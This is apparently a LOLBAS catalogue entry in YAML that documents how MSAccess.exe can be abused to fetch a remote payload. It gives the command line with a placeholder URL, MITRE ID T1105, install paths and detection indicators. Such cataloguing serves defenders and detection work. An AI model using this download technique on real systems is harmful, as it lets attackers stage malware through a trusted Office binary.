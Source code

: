 ```yaml
---
Name: MSAccess.exe
Description: Microsoft Office component
Author: Nir Chako
Created: 2023-04-30
Commands:
  - Command: MSAccess.exe https://example.com/payload.exe.mdb
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload (if it has the filename extension .mdb) and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\MSAccess.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office\Office16\MSAccess.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\MSAccess.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office\Office15\MSAccess.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\MSAccess.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office\Office14\MSAccess.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office\Office12\MSAccess.exe
Detection:
  - IOC: URL on a MSAccess command line
  - IOC: MSAccess making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Nir Chako
    Handle: '@C_h4ck_0'
---
```


